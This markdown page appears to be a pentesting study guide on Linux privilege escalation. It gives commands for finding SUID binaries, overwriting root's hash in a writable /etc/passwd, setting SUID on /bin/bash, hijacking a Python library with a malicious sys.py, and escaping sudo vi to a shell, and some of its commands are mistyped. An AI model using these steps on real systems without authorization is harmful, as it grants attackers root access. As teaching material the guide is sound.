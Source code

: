 # (PART) Privilege Escalation {-}

# Linux Machine {-}


To check in which group the user is in the machine:

```bash
id 
```

> [!] NOTE: Checking groups can be interesting because sometimes groups are not related to the machine but related to tools like Docker, lxd or other.

To look at the user privileges use:

```bash
sudo -l
```

Next enumerate SSUID privileges at system level:

```bash
cd /
find \-perm -4000 2>/dev/null
```

## Writable rights in /etc/passwd {-}

Find the tools where the non privileged user have writable rights

```bash
cd /
find \-writable -4000 2>/dev/null | grep "etc"
```

Imagine that /etc/passwd is in the list, that means that u can add a password to root where the first **x** is.

Create a DES(Unix) password

```bash
openssl passwd
#Output
Password:
Verifying - Password:

JIJQueSBU9kBY
```

You can then copy the hash in passwd for the root user

```bash
root:JIJQueSBU9kBY:0:0:root:/root:/usr/bin/zsh
```

## Check crons on machine {-}

```bash
cat /etc/cron
crontab -l
ls /var/spool/cron/
ls /var/spool/cron/ -l
systemctl list-timers
```

## Monitoring processes using bash {-}

```bash
#!/bin/bash

old_process=$(ps -eo command)

while true; do
    new_process=$(ps -eo command)
    diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -v -E "procmon|ps|command"
    old_process=$new_process
done
```

## Monitoring processes using pspy {-}

**pspy** is a utility written in GO that allows attackers to monitorize background processes.

```bash
git clone https://github.com/DominicBreuker/pspy
cd pspy
go build -ldflags "-s -w" .
upx brute pspy 
```

You can send the pspy compiled file to the victim machnie using `python3 -m http.server` and run it with `.\pspy` after giving pspy execution 
rights.

## Check for GIT repositories {-}

```bash
find \-type f 2>/dev/null | grep ".git"
```

Some times, you will be able to see folders that contains a `.git` folder in it. That means that this folder is a repository git.
**GIT** is not a vunlerability if facts but as they save all the history of de files changes, as an attacker we can enumerate and
see if developpers have made mistakes.

```bash
git log
```

With the parameter `-p` you can look at the differences made in a specific commit.

```bash
git log -p 33e87c312c08735a02fa9c796021a4a3023129ad
```

## Checking Machine local open ports {-}

```bash
cat /proc/net/tcp
#Output

sl  local_address ...
0:  00000000:01BB
1:  0100007F:1F40
2:  0100007F:2BCB
```

you can now use python to check the corresponding ports in hexadecimal

```bash
python3

>>> 0x01BB
443
>>> 0x1F40
8000
>>> 0x2BCB
11211
>>> 0x0050
80
>>> 0x0015
21
>>> 0x0016
22
```

## Local Port forwarding {-}

```bash
ssh -i id_rsa user@<ip> -L 9000:172.17.0.2:9000
```

- -i for adding ssh id_rsa key
- -L for local port forwarding where 9000 correspond to local attacker port and 172.17.0.2:9000 correspond to the address Attacker want to connect using ssh

## Add SSUID privilege to tool {-}

```bash
ls -l /bin/bash
# output
-rwxr-xr-x  1   root    root    1037528 May 16  2017    bash

#add ssuid rules
chmod u+s /bin/bash
ls -l /bin/bash
#output
-rwsr-xr-x  1   root    root    1037528 May 16  2017    bash

bash -p
# output
bash-4.3# whoami
root
```

## Path Hijacking {-}

**Path Hijacking** take profit of programms that are ssuid and use a command that have a relative path. You can then update the Path variable environment
and point to a malicious software that will be executed as root

## Library Hijacking {-}

**Library Hijacking** follows exactly the same logic as **Path Hijacking** but with programming languages. If we take the example of python.

```python
import sys

print(sys.path)
#Output
['', '/usr/lib/python2.7', ...]
```

As you can see, when we use the keyword import in python, the first place python will check for importing a library is in the current working directory.
That means that taking the same dumby example if you create a malicious file and rename it by sys.py

```python
import os

os.setuid(0)
os.system("/bin/bash")
```

That's it... by calling the previous script you will become root.

## WildCards {-}

```bash
sudo -l

#output
User x may run the following commands on y:
    (user2) NOPASSWD: /usr/bin/vi


sudo -u user2 /usr/bin/vi
# in vim you can now set commands as user2

:set shell=/bin/bash
:shell

whoami
#output
user2
```

## Linux capabilities exploitation {-}

Check in the system if a tool have a special capability that can be used in order to escalate privileges (**cap_setuid+ep**)

```bash
getcap -r / 2>/dev/null
```

## Kernel abuse {-}

first check the kernel version

```bash
uname -a
```
